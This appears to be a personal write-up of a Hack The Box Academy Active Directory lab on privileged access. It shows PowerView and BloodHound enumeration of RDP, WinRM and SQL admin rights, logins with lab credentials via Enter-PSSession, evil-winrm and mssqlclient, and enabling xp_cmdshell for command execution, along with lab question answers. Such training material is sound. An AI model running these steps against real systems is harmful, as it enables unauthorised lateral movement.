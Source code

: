 # 🦑 Privileged Access

## Privileged Access

### Remote Desktop

Typically, if we have control of a local admin user on a given machine, we will be able to access it via RDP. Sometimes, we will obtain a foothold with a user that does not have local admin rights anywhere, but does have the rights to RDP into one or more machines.

Using PowerView, we could use the [Get-NetLocalGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-NetLocalGroupMember/) function to begin enumerating members of the `Remote Desktop Users` group on the host

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
<SNIP>
```

all Domain Users (meaning `all` users in the domain) can RDP to this host.

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Once we control a user, we can check what remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>or <code>Analysis</code> tab and run the pre-built queries <code>Find Workstations where Domain Users can RDP</code> or <code>Find Servers where Domain Users can RDP</code>.</p></figcaption></figure>

### WinRM

We can again use the PowerView function `Get-NetLocalGroupMember` to the `Remote Management Users` group.

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Adding the Cypher Query as a Custom Query in BloodHound**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Establishing WinRM Session from Windows**

We can use the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell from a Windows host.

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

and on a linux host we can use `evil-winrm`

Install `evil-winrm ->`

```shell-session
ElFelixi0@htb[/htb]$ gem install evil-winrm
```

And to conect to the host with a set of valid credentials ->

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend
```

### SQL Server Admin

A way that you may find SQL server credentials other then via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying is using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configuration files that contain SQL server connection strings

Here is a query for bloodhound to find `SQL Admin Rights` in the `Node Info` tab for a given user

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet). Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain
```

We could then authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)

```shell-session
ElFelixi0@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

Then we can look at the commands we can launch on the SQL server like `enable_xp_cmdshell` to enable the [xp\_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```shell-session
SQL> enable_xp_cmdshell
```

Now we can run commands in the format `xp_cmdshell <command>`

```shell-session
xp_cmdshell whoami /priv
```

_**What other user in the domain has CanPSRemote rights to a host?**_

So i start by launching sharphound on my windows machine, then downloading it to my attackbox via a evil-winrm session, then i launch bloodhound and upload all the data ->

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_I enter this raw query ->_

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>BDAVIS</p></figcaption></figure>

_**What host can this user access via WinRM? (just the computer name)**_

```
ACADEMY-EA-DC01
```

_**Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.**_

_**We find the SQL admin rights ->**_

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

via a evil-winrm session i upload mssqlclient.exe to the RDP session and launch the attack

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
